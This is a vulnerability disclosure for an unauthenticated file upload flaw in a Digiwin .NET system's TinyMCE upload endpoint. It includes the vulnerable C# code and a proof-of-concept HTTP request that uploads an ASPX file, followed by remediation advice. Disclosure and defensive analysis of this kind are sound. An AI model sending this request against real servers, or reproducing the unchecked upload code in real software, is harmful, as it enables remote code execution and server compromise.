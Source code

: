 

![image-20250307232259175](./assets/image-20250307232259175.png)

# Vulnerability Report

## Title: Unauthenticated File Upload Leading to Remote Code Execution (RCE)

## Vendor Homepage

https://www.digiwin.com/

### Summary:
An unauthenticated file upload vulnerability has been identified in the .NET system. This vulnerability allows an attacker to upload arbitrary files, including potentially malicious ASPX files, which can lead to remote code execution and full server compromise.

### Affected Endpoint:
`/Api/TinyMce/UploadAjaxAPI.ashx`

### Vulnerability Type:
Unauthenticated File Upload

### Vulnerable Code:
```csharp
else
{
    //上传其他文件 .pdf, .txt, .zip, .rar, .7z, .doc, .docx, .xls, .xlsx, .ppt, .pptx
    string path = "/fileRoot/tinymce/otherfile/" + Guid.NewGuid().ToString() + file.FileName;
    file.SaveAs(context.Request.MapPath(path));
    var obj = new
    {
        location = path,
        type = "file",
        name = file.FileName
    };
    string json = JsonConvert.SerializeObject(obj);
    context.Response.Write(json);
}
```

### Proof of Concept (PoC):
```http
POST /Api/TinyMce/UploadAjaxAPI.ashx HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryFfJZ4PlAZBixjELj
Accept: */*
Connection: close

------WebKitFormBoundaryFfJZ4PlAZBixjELj
Content-Disposition: form-data; name="file"; filename="1.aspx"
Content-Type: image/jpeg

Test
------WebKitFormBoundaryFfJZ4PlAZBixjELj--
```

### Impact:
The vulnerability allows an attacker to upload any file, including executable files such as ASPX scripts. Once uploaded, the attacker can execute arbitrary code on the server, potentially gaining full control over the server, accessing sensitive data, modifying or deleting files, and performing other malicious activities.

### Recommendation:
1. **File Type Validation**: Implement strict validation to ensure only allowed file types can be uploaded. For example, only permit `.pdf`, `.txt`, `.zip`, `.rar`, `.7z`, `.doc`, `.docx`, `.xls`, `.xlsx`, `.ppt`, and `.pptx` file extensions.
2. **Authentication**: Require authentication for file upload endpoints to prevent unauthenticated users from uploading files.
3. **Content Inspection**: Perform content inspection to ensure uploaded files match their declared MIME types and do not contain executable code.
4. **Upload Directory Permissions**: Configure the upload directory with appropriate permissions to prevent execution of uploaded files.
5. **Logging and Monitoring**: Implement logging and monitoring for file upload activities to detect and respond to suspicious activities promptly.

### Conclusion:
The identified vulnerability poses a significant security risk as it allows unauthenticated users to upload and execute arbitrary files on the server. Immediate remediation is necessary to prevent potential exploitation and ensure the security of the server and its data.

### References:
- [OWASP File Upload Security](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)
- [Microsoft Secure Coding Guidelines](https://learn.microsoft.com/en-us/security/engineering/secure-coding)